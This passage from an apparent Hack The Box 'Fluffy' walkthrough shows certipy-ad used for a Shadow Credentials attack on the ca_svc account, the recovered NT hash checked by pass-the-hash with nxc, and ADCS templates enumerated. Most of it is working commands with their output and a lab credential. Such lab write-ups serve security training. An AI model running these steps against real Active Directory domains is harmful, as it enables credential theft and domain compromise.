 `certipy-ad` was once again used to perform a Shadow Credentials attack on the `ca_svc` service account using the user `p.agila`.

```
fcoomans@kali:~/htb/fluffy$ certipy-ad shadow -u p.agila -p prometheusx-303 -dc-ip 10.10.11.69 -account ca_svc auto
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'cfedad4b-ab55-72da-4ff3-dff10f1e8b95'
[*] Adding Key Credential with device ID 'cfedad4b-ab55-72da-4ff3-dff10f1e8b95' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'cfedad4b-ab55-72da-4ff3-dff10f1e8b95' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
```

`nxc` confirmed that the hash was valid.

```
fcoomans@kali:~/htb/fluffy$ nxc smb dc01.fluffy.htb -u ca_svc -H ca0f4f9e9eb8a092addf53bb03fc98c8
SMB         10.10.11.69     445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.69     445    DC01             [+] fluffy.htb\ca_svc:ca0f4f9e9eb8a092addf53bb03fc98c8
```

`certipy-ad find` was run again, but this time as the `ca_svc` service account to find ADCS vulnerabilities.

```
fcoomans@kali:~/htb/fluffy$ certipy-ad find -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -ns 10.10.11.69 -dc-ip dc01.fluffy.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 14 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'fluffy-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'fluffy-DC01-CA'
[*] Checking web enrollment for CA 'fluffy-DC01-CA' @ 'DC01.fluffy.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250716135234_Certipy.txt'
[*] Wrote text output to '20250716135234_Certipy.txt'
```